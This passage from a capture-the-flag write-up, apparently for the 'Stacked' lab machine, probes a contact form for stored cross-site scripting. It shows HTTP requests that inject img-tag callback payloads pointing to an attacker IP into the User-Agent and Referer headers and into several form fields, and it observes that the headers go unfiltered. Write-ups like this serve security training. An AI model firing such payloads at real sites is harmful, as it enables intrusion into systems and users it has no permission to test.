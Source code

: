 ```http
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 111
Origin: http://portfolio.stacked.htb
Connection: close
Referer: http://portfolio.stacked.htb/

fullname=tgihf+full+name&email=tgihf%40stacked.htb&tel=111111111111&subject=tgihf+subject&message=tgihf+message
```

```http
HTTP/1.1 200 OK
Date: Sat, 19 Mar 2022 21:15:11 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 54
Connection: close
Content-Type: text/json; charset=utf8

{"success":"Your form has been submitted. Thank you!"}
```

The data on this form is presumably rendered in whoever looks through the submission's browser. Thus, it may be vulnerable to XSS.

The backend is filtering XSS attempts on the form data effectively. However, it doesn't appear to be applying that filter to the request headers. The `Referer` header must also be rendered to the user, as injecting it with an XSS payload that contains a link to an attacker-controlled web server seems to trigger a request.

```http
POST /process.php HTTP/1.1
Host: portfolio.stacked.htb
User-Agent: <img src="http://10.10.14.61/ua">
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 258
Origin: http://portfolio.stacked.htb
Connection: close
Referer: <img src="http://10.10.14.61/referer">

fullname=%3Cimg+src%3D%22http%3A%2F%2F10.10.14.61%2Fname%3E%3C%2Fimg%3E&email=tgihf%40stacked.htb&tel=111111111111&subject=%3Cimg+src%3D%22http%3A%2F%2F10.10.14.61%2Fsubject%3E%3C%2Fimg%3E&message=%3Cimg+src%3D%22http%3A%2F%2F10.10.14.61%2Fmsg%3E%3C%2Fimg%3E
```

